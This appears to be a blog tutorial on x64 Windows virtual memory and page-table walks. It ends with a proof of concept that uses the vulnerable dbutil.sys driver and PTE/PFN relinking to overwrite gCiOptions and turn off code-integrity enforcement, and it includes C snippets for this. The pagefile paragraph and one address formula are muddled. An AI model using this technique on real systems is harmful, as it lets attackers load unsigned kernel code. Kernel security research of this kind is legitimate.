


# Disclaimer / Responsible Use Notice

> The code and techniques described in this article are for educational purposes only and are intended to be executed only in controlled laboratory environments that you own. Do not run exploit code or tests against systems you do not own or for which you do not have explicit authorization.

---

# Introduction

Imagine you're writing a program on your computer, and you suddenly wonder: *Where does my data actually live?* You might picture it neatly stored in your computer's memory, but the reality is far more fascinating. Beneath the surface, your program operates in a carefully orchestrated dance between **virtual memory** a spacious, illusory address space that your code sees and **physical memory**, the actual hardware chips holding your data.

This interplay is the secret sauce that lets modern 64-bit Windows systems juggle massive programs, keep processes isolated, and run smoothly even when RAM is tight. In this blog we’ll unravel the magic of how virtual and physical memory work together, and we’ll show how those mechanics can be (ab)used to rearrange what the operating system perceives as “our” memory.

---

# The library (metaphor)

Imagine a special library of gigantic magnitude, a place that can hold ~ **256 TiB** of data (for the sake of the metaphor, think of it as 1 billion books). The library is illusory: every visitor sees a private view of the collection. Even if thousands of visitors browse at once, each one perceives their own half of the library and is completely encapsulated from the others. Concretely, every visitor gets a visible half of the shelves while the other half remains hidden, so of the 1 billion books only ~500 million are visible to any single visitor. Those visible books start out blank and are free for that visitor to read from or write to; if Visitor A writes a crime thriller into a book, Visitor B that “holds” the same book will still see blank pages (or write their own story) — the views are isolated.

The visible half is a vast, personalized bookshelf: this is the user-mode address space (on x86_64 Windows roughly ~ **128 TiB**, from `0x0` to `0x00007FFF'FFFFFFFF`). Visitors reference books by virtual labels `“Shelf A, Row 1, Book 42”` and an automated system transparently maps those virtual labels to real places in the enormous shared warehouse behind the scenes (the physical RAM chips). That helper is the Memory Management Unit (MMU), a hardware component inside the CPU that translates virtual labels to physical locations at hardware speed so the visitor never notices the indirection. Because the MMU performs the translation automatically, the OS kernel (the librarian) is not involved in every single access, which prevents a performance bottleneck and allows thousands of visitors to browse concurrently.

Now lift the curtain on the hidden half: the kernel-mode address space (the “upper half”, roughly another ~ **128 TiB**, e.g. `0xFFFF8000'00000000…0xFFFFFFFF'FFFFFFFF`). This region is mapped into every process but is protected from direct user access. It holds the shared infrastructure, think of it as the library’s emergency plans, building maps and common reference manuals: system services, kernel structures, and preloaded system code (DLLs and kernel modules). These hidden books are typically identical across all visitors’ views to save space and ensure consistency, and from user-mode they are normally read-only. That said, this is not absolute: the OS can expose shared pages with copy-on-write semantics (or create private writable mappings). If a process writes to a COW mapped page, the MMU triggers a page fault and the kernel allocates a private physical page, copies the contents and updates that process's page table, preserving the original shared page for others. A visitor can consult them to invoke system functionality (the equivalent of calling CreateFile or ReadFile), but cannot scribble in the margins or rearrange pages without escalating privileges (i.e., running code in kernel mode).

All of this is orchestrated by the page mapping tables, the master index cards the librarian (the OS) maintains for each visitor. The page tables cross-reference every virtual book label to its physical shelf location and carry permission flags such as present, `read/write`, and `user/supervisor` to enforce isolation and access control. Understanding how those tables are organized: a multi-level hierarchy (PML4, PDPT, PD, PT in x64 paging) reveals powerful possibilities: you can remap pages for performance, inspect how virtual views correspond to physical pages, or, in advanced and dangerous scenarios, alias physical memory to make the OS see a different mapping than before.

This metaphor preserves the illusion of a private, contiguous space for each visitor while exposing the shared mechanisms and constraints below. Knowing the rules of the index cards (the page tables) is what lets a skilled reader reason about memory layout, permissions, and the subtle techniques that manipulate what the librarian (and thus the OS) perceives as “your” territory.

---

# When we start: physical vs virtual memory

When you sit down to write a program on a modern **64‑bit** Windows machine, the very last thing that you want to think about is: “address space.” How many bytes can I use? Where do they live?
And why does my process suddenly pause when it tries to read a page that isn’t in RAM? Most people don’t ask these questions.
But they are very important concepts, and understanding them, can be very crucial in tackling complex problems.

The answers lie in two complementary layers of abstraction: physical memory and virtual memory.
Understanding how these layers cooperate—and how the hardware and operating system keep them in sync is essential for getting a glimpse into what happens inside the Windows kernel.

Physical memory is nothing more than a collection of DRAM chips soldered onto the motherboard. Each byte in RAM has a physical address (e.g., 0x0001_2345).
It tells your CPU where to look for when you want to work with data. It pinpoints the location of this data on RAM. RAM compared to disk is in an order of magnitudes faster, but usually much smaller.

Therefore the OS uses a mechanism called paging. A pagefile (or swapfile) is a contiguous block of memory, pre-allocated on disk, which means that the OS reserves a contiguous block of space on disk,
whenever the space on RAM is shortening, the OS will take the least-accessed-data from RAM and page it out (or swap it out) to the pagefile. Whenever information, that is located in the pagefile,
is needed again, the MMU has a much simpler game, it will raise a page-fault and the OS can load, therefore page-in, the data from the pagefile back to ram,
since the information could potentially be located far apart from each other 
on the disk, this access is faster.

A programer never touches a physical address directly. Instead, you work in virtual memory —a single linear range that looks contiguous and consistent from the process’s point of view.
On Windows a typical 64‑bit process can see an address space of up to ~ **128TiB** (there is in fact the other half of ~ **128TiB**, the so called 'upper half' but it is reserved for kernel mode, and makes it easier for the os
to access functions and structures in kernel, from any process).

Every process has it's own address space; one process cannot accidentally overwrite another’s data.
This is possible because every process' kernel structure keeps a distinct cr3-value, which is used to derive the processes PML4 Mapping Table, to create an illusion of this contigous address space.
More on the page mapping table later.

A programmer never directly touches physical addresses, instead they work with virtual addresses. The translation from virtual → physical is performed by the MMU using the page tables.

A virtual address is defined by aschema that maps it into indices, when correctly computed, we will be able to derive the physical address, this address is the start of a chunk in RAM,
that can hold 4096bytes of data.
You can imagine the virtual address space, as a house with **4 levels**, on each level there are **512 doors**, any of these doors will lead us into the next level, but entering any door will present us with **512 different doors**.
This is definitely not a normal house, and without a map we would have no chance of finding the correct 4 doors to find our data stored in RAM.
But luckily a virtual address is a map, that tells us exactly which doors to open.

 </br>
(source: https://www.amd.com/system/files/TechDocs/24593.pdf)

---

# The x64 virtual address layout

A canonical x86-64 virtual address is **64 bits** long.

Example **VA**: `0xfffff8003dc39418` as **binary** is: </br>
`1111 1111 1111 1111 1111 1000 0000 0010 0100 0011 1010 0011 1001 0100 0001 1000`

```
--------------------------------------------------------------------------------
| 63               48 47     39 38     30 29     21 20     12 11                0 |
|    Sign Extend     | Level-4 | Level-3 | Level-2 | Level-1 |      Offset        |
| 1111 1111 1111 1111 1111 1000 0000 0010 0100 0011 1010 0011 1001 0100 0001 1000 |
--------------------------------------------------------------------------------
```

- The two most-significant bytes are a sign extension of bit 47 (canonical addresses).
- The 4 index fields (each 9 bits) select entries in four paging structures:
  - Level-4 → **PML4** (Page Map Level 4)
  - Level-3 → **PDPT** (Page Directory Pointer Table)
  - Level-2 → **PD**   (Page Directory)
  - Level-1 → **PT**   (Page Table)
- The lowest 12 bits are the **page offset** (4 KiB pages).

Each index is used to find a pointer (an 8‑byte entry) in the corresponding page table page. Repeating this walk yields a final Page Table Entry (PTE) that contains the **Page Frame Number (PFN)** for the physical page plus flags.

---

# Walk example

Given this kernel VA: `0xfffff8003dc39418` and `CR3 = 0x7d4000`, here are the computed indices and resulting addresses:


```
PML4-Index: (0xfffff8003dc39418 >> 39) & 0x1ff = 0x1f0
PDPT-Index: (0xfffff8003dc39418 >> 30) & 0x1FF = 0x0
PD-Index:   (0xfffff8003dc39418 >> 21) & 0x1ff = 0x1ee
PT-Index:   (0xfffff8003dc39418 >> 12) & 0x1ff = 0x39
Offset:      0xfffff8003dc39418        & 0xfff = 0x418
```

Each page table entry (at each level) is 8 bytes. Compute the physical addresses of the table entries and read their values:

<pre><code>PML4E_phys = CR3 + (PML4_index * 8)
            = 0x7d4000 + (0x1f0 * 8) = 0x7d4f80
PML4E_value = <span style="color: red;">0x0000000004609063</span>

PDPT_base   = PML4E_value & ~0xFFF = 0x4609000
PDPTE_phys  = PDPT_base + (PDPT_index * 8) = 0x4609000
PDPTE_value = <span style="color: red;">0x000000000460A063</span>

PD_base     = PDPTE_value & ~0xFFF = 0x460A000
PDE_phys    = PD_base + (PD_index * 8) = 0x460A000 + 0xE8 = 0x460A0E8
PDE_value   = <span style="color: red;">0x0000000004515063</span>

PT_base     = PDE_value & ~0xFFF = 0x4515000
PTE_phys    = PT_base + (PT_index * 8) = 0x4515000 + 0x1C8 = 0x45151C8
PTE_value   = <span style="color: red;">0x890000000362E963</span></code></pre>

We can verify these values using WinDbg:


---

# What is a PFN and how do we use it?

A **Page Frame Number (PFN)** is the identifier of a physical 4 KiB page. In each page table entry, the lower 12 bits store flags (present, RW, user/supervisor, etc.), and the higher bits store the PFN.

Masking off the low 12 bits yields the PFN (and a page-aligned physical base address when multiplied by the page size or masked appropriately).

From the example entries above we can form a compact table:

| Level | Entry Value    | Masked PFN | Physical Base | Description                             |
|-------|----------------|------------|---------------|-----------------------------------------|
| PML4E | `0x4609063`    | `0x4609`   | `0x4609000`   | Points to the PDPT page                 |
| PDPTE | `0x460A063`    | `0x460A`   | `0x460A000`   | Points to the PD page                   |
| PDE   | `0x4515063`    | `0x4515`   | `0x4515000`   | Points to the PT page                   |
| PTE   | `0x362E963`    | `0x362E`   | `0x362E000`   | Points to the actual data page in RAM   |

(the PFNs can be verified from the same WinDbg `!pte` output)

Finally, add the page offset from the original VA (`0x418`) to the PTE physical base to get the final physical address:

```
Physical address = PT_base + page_offset
                 = 0x362E000 + 0x418
                 = 0x362E418
```

Here’s what’s happening at each stage:

1.PML4E (PXE)
  - The value `0x4609063` contains the PFN `0x4609`, which identifies the first **4KiB** page of the PDPT.
  - The lower 12 bits (0x063) are flags describing access permissions and status.

2.PDPT Entry (PPE)
  - Reading the PDPT entry gives `0x460A063`.
  - PFN `0x460A` → this is the base of the Page Directory (PD) for our VA.
  - Flags again tell the CPU how this page can be accessed.

3.PD Entry (PDE)
  - PDE value `0x4515063` → PFN `0x4515` → points to the Page Table (PT) page.

4.PT Entry (PTE)
  - PTE value `0x362E963` → PFN `0x362E` → points to the actual data page in RAM that contains the contents of our virtual address.
Finally, to get the exact byte in that **4KiB** page, we use the page offset from the VA (0x418 in this example) and add it to the physical base `0x362E000`. That gives the physical address in RAM where the data actually lives:
```
Physical address =  PT_base  + page_offset
                 = 0x362E000 + 0x418
                 = 0x362E418
```

So the PFN is the bridge between virtual addresses and the physical 4KiB chunks in RAM, while the offset inside the page pinpoints the exact byte. Understanding PFNs is key to tracing memory manually,
inspecting pages in WinDbg, or even performing advanced manipulations like remapping physical memory.
	
To validate our result, we examin the physical memory at <span style="color: green;">0x362E418</span> using WinDbg, and compare it to the virtual memory at <span style="color: orange;">0xfffff8003dc39418</span>:



If the page is not resident in RAM, the MMU triggers a page fault and the OS may page it in from disk.

---

# Proof of Concept (PoC)

This PoC demonstrates using page-walking and **PFN relinking** to alias a user-controlled 4 KiB buffer to the physical page that contains a kernel global variable `gCiOptions` (the variable used by code integrity to determine TestMode / Trusted state).

> **Important:** the PoC described here uses a known vulnerable driver (`dbutil.sys` 2.3) to obtain kernel virtual read/write primitives.

## High level steps

1. Resolve the virtual address of the kernel symbol `gCiOptions` (e.g. by parsing PDB or symbol store and adding the module base).
2. Use a kernel memory primitive to read the PTEs that map `gCiOptions` (or use self‑referencing page table trick to form virtual addresses to the entries).
3. Compute the PFN of the `gCiOptions` page from its PTE.
4. Allocate a 4 KiB user-mode buffer and read its PTE.
5. Replace the PFN in the user-mode buffer's PTE with the PFN of the `gCiOptions` page (preserve flags). This aliases the user buffer to the kernel page.
6. Write into the user buffer (now mapped to the kernel page) at the offset of `gCiOptions` to flip flags (e.g. to enable TestMode).
7. Restore the original PTE content so the system continues to function.

## Why self-referencing helps

Windows (and other OSes) can expose a self-referencing PML4 entry. The kernel function `MiGetPteAddress` exposes a `PteBase` which can be used to derive a *self-ref index*. That index allows building canonical virtual addresses that directly reference the page table pages themselves (PML4/PDPTE/PDE/PTE), making it possible to read and write PTEs using virtual memory primitives rather than physical ones.

Given `PteBase`, the self-ref index is computed as:

```
SelfRefIndex = (PteBase >> 39) & 0x1FF
```

Using the self-ref index we can craft virtual addresses that index into the relevant page table pages.

---

# Useful helper functions (C-like)

```c
static inline uint64_t Canonicalize(uint64_t x) {
    // sign-extend bit 47 into bits 48..63
    if (x & (1ULL << 47)) x |= 0xFFFF000000000000ULL;
    return x;
}

ULONG64 GetVAToPML4eVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (selfRef << 21) | (PML4i << 3);
    // <<3 because each PML4 entry = 8 bytes
    return Canonicalize(va);
}

ULONG64 GetVAToPDPTeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (selfRef << 21) | (PML4i << 12) | (PDPTi << 3);
    return Canonicalize(va);
}

ULONG64 GetVAToPDeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 PDEi  = (vaddr >> 21) & 0x1FF;
    ULONG64 va = (selfRef << 39) | (selfRef << 30) | (PML4i << 21) | (PDPTi << 12) | (PDEi << 3);
    return Canonicalize(va);
}

ULONG64 GetVAToPTeVA(ULONG64 vaddr, ULONG64 selfRef) {
    ULONG64 PML4i = (vaddr >> 39) & 0x1FF;
    ULONG64 PDPTi = (vaddr >> 30) & 0x1FF;
    ULONG64 PDEi  = (vaddr >> 21) & 0x1FF;
    ULONG64 PTEi  = (vaddr >> 12) & 0x1FF;

    ULONG64 va = (selfRef << 39) |
                 (PML4i << 30) |
                 (PDPTi << 21) |
                 (PDEi << 12) |
                 (PTEi << 3);
    return Canonicalize(va);
}
```

---

# PTE swap snippet

```c
ULONG64 ptr_PTEe_VA_BAK = 0;
ULONG64 gCi_e_content = 0;
ULONG64 ptr_e_content = 0;

// read current PTE contents
dbutil.ReadMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));
dbutil.ReadMemory(gCi_PTEe_VA, &gCi_e_content, sizeof(ULONG64));

printf("[*] gCiOptions PTE Content: 0x%llx\n", gCi_e_content);
printf("[*] ptr        PTE Content: 0x%llx\n", ptr_e_content);

ptr_PTEe_VA_BAK = ptr_e_content;

// extract PFN (bits 12-51)
ULONG64 gCi_pfn = (gCi_e_content >> 12) & 0xFFFFFFFFFFULL;

// clear bits 12-51 of our buffer's PTE
ptr_e_content &= ~(0xFFFFFFFFFFULL << 12);

// insert new PFN bits
ptr_e_content |= (gCi_pfn << 12);

// write modified PTE (aliasing the page)
dbutil.WriteMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));

// sanity read & print
dbutil.ReadMemory(ptr_PTEe_VA, &ptr_e_content, sizeof(ULONG64));
printf("[*] ptr (mod)  PTE Content: 0x%llx\n", ptr_e_content);

// write to the user buffer which now aliases the kernel page
ULONG64 test = 0xe;
memcpy((PBYTE)ptr + (sym.GciOptions & 0xFFF), &test, sizeof(ULONG64));

// restore original PTE
dbutil.WriteMemory(ptr_PTEe_VA, &ptr_PTEe_VA_BAK, sizeof(ULONG64));
```

As you can see we will first relink the PFN, write to our own memory in the user-mode process, to overwrite the flag and send our system into TestMode.
After everything is done, we will undo the relink, leaving the system in an untrusted state.


---

# Notes, caveats and safe testing

- Modern OSs and security products may detect or prevent this class of manipulation. Use isolated, instrumented VMs and removable snapshots for safe experimentation.
- Restoring original PTE values and cleaning up is critical: leaving pages aliased or corrupted will crash the system or corrupt kernel state.

---

# Where to find the code

The full code and supporting artifacts are available on GitHub. 

---

# Closing / Cheers

Understanding paging, how virtual addresses map to physical pages and how PFNs are used, gives you a powerful mental model for Windows internals, debugging and advanced kernel research.
With this knowledge, you can reason about memory layout, permissions, and even manipulate what the OS perceives as “your” memory in advanced scenarios.

